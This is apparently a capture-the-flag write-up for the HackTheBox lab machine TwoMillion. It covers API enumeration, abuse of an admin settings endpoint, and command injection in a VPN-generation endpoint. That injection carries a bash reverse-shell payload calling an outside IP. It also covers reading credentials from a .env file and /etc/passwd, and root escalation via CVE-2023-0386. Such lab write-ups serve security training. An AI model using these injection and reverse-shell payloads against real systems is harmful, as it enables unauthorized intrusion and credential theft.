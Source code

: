  </br>[![Typing SVG](https://readme-typing-svg.demolab.com?font=Fira+Code&size=35&pause=1000&color=6A0DAD&width=435&lines=TwoMillion)](https://git.io/typing-svg)
</br>
<a href="https://app.hackthebox.com/machines/TwoMillion">
  <img src="pic/pic1.png" alt="Alt Text">
</a>
</br>
</br>
</br>

## Nmap-scan
</br>

First, let's initiate a quick scan utilizing nmap.


<a href="https://app.hackthebox.com/machines/TwoMillion">
  <img src="pic/pic2.png" alt="Alt Text">
</a>
</br>

We need to include "2million.htb" in our /etc/hosts file

```bash
echo "10.10.11.221 2million.htb" >> /etc/hosts
```

</br>

## Trying to have access

Upon visiting the website, I discovered it's an outdated version of the HackTheBox platform. To gain access, I attempted to log in using the default credentials, but unfortunately, I received an error message indicating that the user not found.
<a href="https://app.hackthebox.com/machines/TwoMillion">
  <img src="pic/pic3.png" alt="Alt Text">
</a>
</br>
While exploring the website, I discovered that I can join the platform by obtaining an invite code.
</br>

`http://2million.htb/invite`

</br>
I came across a JavaScript code that contains some intriguing elements. 
</br>

`/js/inviteapi.min.js`

<a href="https://app.hackthebox.com/machines/TwoMillion">
  <img src="pic/pic4.png" alt="Alt Text">
</a>

</br>
I am interested in generating my own invite code as well.
</br>
I will examine the endpoint "/api/v1/invite/how/to/generate" to gather more information.
</br>


<a href="https://app.hackthebox.com/machines/TwoMillion">
  <img src="pic/pic6.png" alt="Alt Text">
</a>
</br>

After decoding the ROT13 cipher, we discovered the method to generate our own invite code.


</br>
<a href="https://app.hackthebox.com/machines/TwoMillion">
  <img src="pic/pic7.png" alt="Alt Text">
</a>

Let's proceed with generating our invite code using the discovered method

</br>
<a href="https://app.hackthebox.com/machines/TwoMillion">
  <img src="pic/pic5.png" alt="Alt Text">
</a>
</br>
Since the invite is encoded using base64, it should be easy to obtain one.

</br>

```bash
curl -s -X POST http://2million.htb/api/v1/invite/generate | jq .data.code -r |base64 -d
```

## Gain administrative

</br>

Upon logging in with the provided invite code, I have started exploring additional API resources to discover more useful functionalities.
Fortunately, I have come across some intriguing findings that piqued my interest. "/api/v1"


```bash
curl -s http://2million.htb/api/v1 -H "Cookie: PHPSESSID=b0akpjn8hlj8h2085dv674tgkv" |jq .
{
  "v1": {
    "user": {
      "GET": {
        "/api/v1": "Route List",
        "/api/v1/invite/how/to/generate": "Instructions on invite code generation",
        "/api/v1/invite/generate": "Generate invite code",
        "/api/v1/invite/verify": "Verify invite code",
        "/api/v1/user/auth": "Check if user is authenticated",
        "/api/v1/user/vpn/generate": "Generate a new VPN configuration",
        "/api/v1/user/vpn/regenerate": "Regenerate VPN configuration",
        "/api/v1/user/vpn/download": "Download OVPN file"
      },
      "POST": {
        "/api/v1/user/register": "Register a new user",
        "/api/v1/user/login": "Login with existing user"
      }
    },
    "admin": {
      "GET": {
        "/api/v1/admin/auth": "Check if user is admin"
      },
      "POST": {
        "/api/v1/admin/vpn/generate": "Generate VPN for specific user"
      },
      "PUT": {
        "/api/v1/admin/settings/update": "Update user settings"
      }
    }
  }
}

```

</br>

I will attempt to update my settings

</br>

```json
"PUT": {
         "/api/v1/admin/settings/update": "Update user settings"
      }
```

</br>

<a href="https://app.hackthebox.com/machines/TwoMillion">
  <img src="pic/pic8.png" alt="Alt Text">
</a>


Great! Now that we have successfully obtained administrative privileges, we can proceed to gain RCE.

## Having a RCE

Now that we have administrative access, we can examine :

```json
 "admin": {
      "GET": {
        "/api/v1/admin/auth": "Check if user is admin"
      },
      "POST": {
        "/api/v1/admin/vpn/generate": "Generate VPN for specific user"
      },
```

It seems that after spending some time searching, I have discovered a Remote Code Execution (RCE) vulnerability in the username parameter. This is a significant finding as it allows you to inject commands and potentially gain unauthorized access.

`/api/v1/admin/vpn/generate`


<a href="https://app.hackthebox.com/machines/TwoMillion">
  <img src="pic/pic9.png" alt="Alt Text">
</a>

Now that we have identified the Remote Code Execution (RCE) vulnerability, we can exploit it 

```bash
curl -X POST http://2million.htb/api/v1/admin/vpn/generate -H "Cookie: PHPSESSID=b99sapscujo3dg9l7c454tt4fm" -H "Content-Type: application/json" -d '{"username":"$(bash -c 'bash -i >& /dev/tcp/10.10.10.10/9001 0>&1')"}'
```

Congratulations! HAHA

## Privilege 

After logging in, I discovered an interesting file named ".env".

 ```bash
 
 ls -la
total 56
drwxr-xr-x 10 root root 4096 Jun  8 21:40 .
drwxr-xr-x  3 root root 4096 Jun  6 10:22 ..
-rw-r--r--  1 root root   87 Jun  2 18:56 .env
-rw-r--r--  1 root root 1237 Jun  2 16:15 Database.php
-rw-r--r--  1 root root 2787 Jun  2 16:15 Router.php
drwxr-xr-x  5 root root 4096 Jun  8 21:40 VPN
drwxr-xr-x  2 root root 4096 Jun  6 10:22 assets
drwxr-xr-x  2 root root 4096 Jun  6 10:22 controllers
drwxr-xr-x  5 root root 4096 Jun  6 10:22 css
drwxr-xr-x  2 root root 4096 Jun  6 10:22 fonts
drwxr-xr-x  2 root root 4096 Jun  6 10:22 images
-rw-r--r--  1 root root 2692 Jun  2 18:57 index.php
drwxr-xr-x  3 root root 4096 Jun  6 10:22 js
drwxr-xr-x  2 root root 4096 Jun  6 10:22 views
```
```bash
cat .env 
DB_HOST=127.0.0.1
DB_DATABASE=htb_prod
DB_USERNAME=admin
DB_PASSWORD=S************3
```

Upon inspecting the ".env" file, I found that it contains admin credentials

```bash

cat /etc/passwd | grep sh
root:x:0:0:root:/root:/bin/bash
www-data:x:33:33:www-data:/var/www:/bin/bash
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
fwupd-refresh:x:112:118:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
admin:x:1000:1000::/home/admin:/bin/bash
```


`admin is an user`

I will attempt to switch to the "admin" user by using the provided pass

we have gained access 'YoHOO'

While conducting further research, you came across some intriguing findings indicating the presence of a potential CVE

```bash
admin@2million:/var/www/html$ find / -perm -u=s -type f 2>/dev/null |grep "tmp"
/tmp/cve/ovlcap/upper/file
/tmp/.troll80lvl/CVE-2023-0386/ovlcap/upper/file
/tmp/CVE-2023-0386-main/ovlcap/lower/file
/tmp/CVE-2023-0386-main/ovlcap/upper/file
```


CVE-2023-0386  POC: 
[Link to CVE-2023-0386 Repository](https://github.com/xkaneiki/CVE-2023-0386)

By following the POC, I have acquired the ability to escalate the privileges to the root user level.

```bash
root@2million:/var/www/html# whoami
root
root@2million:/var/www/html# id
uid=0(root) gid=0(root) groups=0(root),1000(admin)
```
